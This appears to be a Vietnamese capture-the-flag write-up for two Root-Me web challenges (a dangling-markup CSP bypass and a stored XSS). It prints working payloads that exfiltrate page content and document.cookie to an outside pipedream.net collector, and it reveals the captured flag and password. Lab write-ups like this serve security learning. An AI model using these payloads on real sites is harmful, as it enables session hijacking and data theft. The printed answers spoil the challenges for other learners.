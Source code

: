 ## 23. CSP Bypass - Dangling markup 2
- Đây là một lỗi mà mình có thể thoát ra khỏi value và chèn đoạn HTML nguy hiểm.
- Ở đây có thể dùng \<table\> để tạo request.
- Tham khảo nội dung ở
https://book.hacktricks.xyz/pentesting-web/dangling-markup-html-scriptless-injection  
- Payload
```js
http://challenge01.root-me.org:58029/page?user="><table background='https://eoesrmo2qdh1ls6.m.pipedream.net?
```
```js
https://eoesrmo2qdh1ls6.m.pipedream.net/? !</h1>  <div class="message">        
<p>At Quackquack corp the developers think that they do not have to patch XSS because they implement the Content Security Policy (CSP). But you are a hacker, right ? I am sure you will be able to exfiltrate this flag: D4NGL1NG_M4RKUP_W1TH_CHR0ME_NO_N3W_LINE. (Only the bot is able to see the flagi :
```

## 27. XSS - Stored 2
- Bài này phát hiện được lỗi XSS ở status.
- Fetch thử ra bên ngoài thì thành công nhưng cần đổi status thành admin thì mới có cookie
- Payload:
```js
admin"><script>fetch("https://eoy0k4cp48905c8.m.pipedream.net?flag11=".concat(document.cookie))</script>
```
![Screenshot 2022-06-01 095501](https://i.imgur.com/uHhy10z.png)
- Click vô admin rồi đổi cookie là thành công
![Screenshot 2022-06-01 100014](https://i.imgur.com/lSrXBEx.png)
```js
Password: E5HKEGyCXQVsYaehaqeJs0AfV
```

